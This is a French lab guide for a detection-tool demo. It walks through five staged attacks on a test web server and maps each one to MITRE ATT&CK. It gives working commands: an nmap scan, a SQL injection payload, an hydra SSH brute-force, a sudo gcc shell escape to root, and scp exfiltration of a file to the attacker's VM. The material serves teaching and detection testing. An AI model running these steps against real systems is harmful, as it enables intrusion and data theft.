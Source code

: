 
# Scénarios d'attaque

## Contexte

Un acteur malveillant est parvenu à déjouer la sécurité physique de l’entreprise et à se connecter sur le même réseau qu’une machine contenant un fichier critique pour l’organisation. Mais notre solution **AnomalyDetect** est également mise en place dans le réseau, et va nous permettre de visualiser les différentes phases d’attaque de cet acteur.

Pour les scénarios, nous avons choisi de mettre en place 5 attaques successives, imitant un cas réaliste et le cheminement logique d’un attaquant qui effectue une reconnaissance, obtient des informations, s'introduit dans le système, réussit à effectuer une élévation de privilège puis exfiltre des informations. Ces 5 différentes attaques seront décrites et justifiées notamment en utilisant la matrice ATT&CK du MITRE (https://attack.mitre.org/matrices/enterprise). 

Avant de commencer la simulation des attaques, passez en mode **root** sur la VM de l’attaquant (sur laquelle on restera pour effectuer toute la rotation d’attaque) avec `su -` et le mot de passe de la machine.


## Attaque 1 - Scan de ports

L’attaquant étant déjà sur le réseau, il a déjà sondé ce dernier afin de découvrir quels sont les appareils présents. Son attention se porte sur un serveur web dont il scanne les ports. Le balayage de ports permet de récupérer beaucoup d’informations sur la cible, notamment ses ports ouverts.

Pour le MITRE, cela correspond dans la phase Reconnaissance au Active Scanning (https://attack.mitre.org/techniques/T1595), on scanne activement une machine et cela peut laisser des traces, c’est plus visible qu’une sonde, mais récolte beaucoup plus d’informations. 

L’outil utilisé ici est **nmap**, un scanner de ports qui permet d’avoir une meilleure idée de la surface d’attaque disponible sur le serveur web.

L’attaque se réalise comme ceci à partir de la VM de l’attaquant : 

`# nmap 10.0.0.1`

2 ports devraient être ouverts sur le serveur web : **SSH** (port 22) et **HTTP** (port 80)

Des logs / une alerte sont attendus : 


## Attaque 2 - Récupération des noms utilisateurs par injection SQL

Le service SSH étant inutilisable pour l’instant, l’attaquant se concentre sur l’application web publique hébergée sur le serveur. Il s’agit d’un outil interne permettant aux employés de trouver le contact des autres en donnant leur nom. Coup de chance, l’application est vulnérable : elle est susceptible d’accepter des requêtes non vérifiées vers la base de données. En exploitant une vulnérabilité d’injection SQL, il interroge donc la base MariaDB pour lister tous les employés et récupérer au moins un nom d’utilisateur utilisable pour les étapes ultérieures. 

L’objectif est d’obtenir des informations d’identification partielles sans nécessité d’accès shell initial.
Pour le MITRE, cela correspond dans la phase Initial Access à Exploitation of Public-Facing Application et SQL Injection (https://attack.mitre.org/techniques/T1190). L’injection SQL est une technique d’accès applicatif qui laisse des traces dans les logs HTTP et dans les logs de la base, et qui peut générer des motifs détectables par un IDS si les payloads sont visibles.

L’outil utilisé sera le navigateur web Firefox (installé par défaut avec Debian).

L’attaque se réalise comme ceci à partir de la VM de l’attaquant : 

Naviguez vers http://10.0.0.1/index.php

Effectuez l’injection SQL suivante dans le formulaire web : 

`' or 1=1#`

Cela devrait retourner la liste complète des employés de l’entreprise en prenant avantage du code php vulnérable du serveur. Parmi ceux-ci, l’attaquant remarque **bob**, développeur web. Il a probablement travaillé sur ce serveur, et il vaut donc le coup de s’intéresser à son accès.

Des logs / une alerte sont attendus :

## Attaque 3 - Brute-force sur un utilisateur

Après identification d’un nom d’utilisateur valide (‘bob’), qui signifie qu’il existe très probablement un utilisateur bob dans le serveur web, l’attaquant lance une attaque par dictionnaire contre le service SSH de la machine vulnérable afin d’obtenir une session authentifiée avec accès au shell. 

L’objectif est d’obtenir un accès au système, en testant de manière automatique une liste de mots de passe issue d’un dictionnaire sur un nom d'utilisateur connu.
Pour le MITRE, cela correspond dans la phase Credential Access au Brute Force (https://attack.mitre.org/techniques/T1110). Les tentatives répétées génèrent des échecs d’authentification visibles dans les logs d’authentification système et peuvent déclencher des règles de détection basées sur des taux d’échec élevés.  

L’outil utilisé ici sera **hydra**, un outil permettant de lancer diverses attaques de force brute au travers de différents protocoles (ftp, ssh, etc) à l’aide de liste d’identifiants et mots de passe fournis.

L’attaque se réalise comme ceci à partir de la VM de l’attaquant (en supposant toujours être dans le dossier /root): 

`hydra -l bob -P wordlist.txt ssh://10.0.0.1`

wordlist.txt contient une petite liste de mots de passe faibles.

Cette ligne devrait apparaître : 

`[22][ssh] host: 10.10.212.228   login: bob   password: password`

Il semblerait donc que bob utilise un mot de passe beaucoup trop faible (‘password’), permettant ainsi à l’attaquant de se connecter en tant que bob sur le serveur web avec cette commande, puis en rentrant le mot de passe trouvé : 

`ssh bob@10.0.0.1`

Des logs / une alerte sont attendus :

## Attaque 4 - Escalade de privilège sur le serveur 

Une fois connecté en tant que bob, l’attaquant se rend compte qu’il ne possède pas les permissions nécessaires pour pouvoir accéder à l’ensemble des fichiers du serveur. En revanche, de par son statut de développeur, bob possède certains privilèges. L’attaquant exécute `sudo -l` et voit que bob peut utiliser le compilateur **gcc** en tant que root. 

L’objectif est d’obtenir un accès privilégié au système, en utilisant des techniques dites d’escalation de privilège.
Pour le MITRE, cela correspond dans la phase Privilege Escalation au Abuse Elevation Control Mechanism (https://attack.mitre.org/techniques/T1548). Cela lui permet d’obtenir des permissions supérieures.

L’outil utilisé ici sera **gcc**, un outil de compilation pouvant servir de vecteur d’attaque s’il est exécuté avec des privilèges.

L’attaque se réalise comme ceci à partir de la VM de l’attaquant (en tant que bob sur le serveur web): 

`sudo gcc -wrapper /bin/sh,-s .`

Cette commande permet de garder les privilèges obtenus en utilisant gcc pour exécuter un shell.

En faisant whoami, cela devrait renvoyer root. L’attaquant a donc un accès total au serveur web.

Des logs / une alerte sont attendus :

## Attaque 5 - Exfiltration de données

Après prise de contrôle de privilèges, l’attaquant réalise l’exfiltration d’un fichier ciblé depuis la machine compromise vers une machine contrôlée par l’attaquant. Le transfert est réalisé via un canal chiffré standard (scp/SSH) afin de réduire la visibilité du contenu, en s’appuyant sur une connexion sortante autorisée ou nouvellement établie. 

L’objectif est de voler des données d’intérêt pour l’attaquant, en l'occurrence next_prime_minister_of_canada.jpg situé dans le dossier /root. Cette image est critique pour la sécurité du premier ministre.
Pour le MITRE, cela correspond dans la phase Exfiltration à Exfiltration Over Alternative Protocols(https://attack.mitre.org/techniques/T1048). L’exfiltration chiffrée masque le contenu mais laisse des métadonnées réseau (endpoints, volumes, durée) exploitables pour la détection.

L’outil utilisé ici sera **scp**, un outil permettant de copier des fichiers de manière sécurisée sur le réseau à l’aide du protocole SFTP sur une connexion SSH.

L’attaque se réalise comme ceci :

`scp /root/next_prime_minister_of_canada.jpg debian@10.0.0.3:/home/debian` 

Puis se connecter en donnant le mot de passe de la VM attaquant.

Si tout s’est bien passé, l’image devrait être accessible sur la VM attaquant, et nous vous laissons découvrir ce fichier primordial pour la sécurité du canada.

Des logs / une alerte sont attendus :

